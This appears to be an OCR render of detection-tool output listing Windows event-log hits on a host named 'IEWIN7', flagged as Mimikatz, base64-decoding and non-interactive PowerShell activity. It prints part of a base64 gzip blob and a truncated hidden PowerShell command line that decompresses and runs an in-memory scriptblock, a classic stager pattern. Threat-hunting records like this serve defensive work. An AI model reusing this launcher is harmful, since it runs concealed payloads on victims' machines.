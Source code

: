     │                     │    │                                          │                                │                                                    │ ng(''H4sIAIuvyFwCA7VW+2/aSBD+OZH6P1gVErZCMA60aSJVu │
    │                     │    │                                          │                                │                                                    │ jVPE5xADITHodNir+0lay/Ya169/u83Btym1/SuPeksHruzM7M │
    │                     │    │                                          │                                │                                                    │ z33w7azcJbUF5KM2DxU1J+vTm/KyLIxxIco6MClKOmsrZGQhz5 │
    │                     │    │                                          │                                │                                                    │ Er6KMlTtFzWeIBpOLu9rSZRREJxnBebRKA4JsGcURLLivSn9OS │
    │                     │    │                                          │                                │                                                    │ TiFw+zBfEFtInKfdHscn4HLOT2q6KbZ9Ilyh00rUOt3EaSdFaM │
    │                     │    │                                          │                                │                                                    │ irk/O+/55XppTYr1lcJZrGct3axIEHRYSyvSJ+VdMP+bknkvEn │
    │                     │    │                                          │                                │                                                    │ tiMfcFcUnGpavioMwxi65B29rYhLhcyfOK5ADfCIikiiUIJvU/ │
    │                     │    │                                          │                                │                                                    │ Lgo52HYjbiNHCcicZwvSNPU8XQ2+02ennZ9TEJBA1I0QkEivrR │
    │                     │    │                                          │                                │                                                    │ ItKY2iYstHDqMPBJ3BlaWiGjozRQF1Nb8mci5MGGsIP2KG/meb │
    │                     │    │                                          │                                │                                                    │ DLMftZIfmkEWl0RKYW0gn/P0uROwsjRLv9KmFBzBZ5j3QGyz2/ │
    │                     │    │                                          │                                │                                                    │ O35y7GUVWdyP6kiEwOpsexgQCk7s8pg...                 │
    │                     │    │                                          │                                │                                                    │                                                    │
    │                     │    │                                          │                                │                                                    │ (use --full to show all content)                   │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-04-30 20:26:52 │ 1  │ ‣ Mimikatz Command Line                  │ "IEWIN7"                       │ C:\Windows\System32\WindowsPowerShell\v1.0\powersh │ powershell.exe -nop -w hidden -noni -c "if([IntPtr │
    │                     │    │ ‣ FromBase64String Command               │                                │ ell.exe                                            │ ]::Size -eq 4){$b='powershell.exe'}else{$b=$env:wi │
    │                     │    │ Line                                     │                                │                                                    │ ndir+'\syswow64\WindowsPowerShell\v1.0\powershell. │
    │                     │    │ ‣ Non Interactive PowerShell             │                                │                                                    │ exe'};$s=New-Object System.Diagnostics.ProcessStar │
    │                     │    │                                          │                                │                                                    │ tInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w h │
    │                     │    │                                          │                                │                                                    │ idden -c &([scriptblock]::create((New-Object IO.St │
    │                     │    │                                          │                                │                                                    │ reamReader(New-Object IO.Compression.GzipStream((N │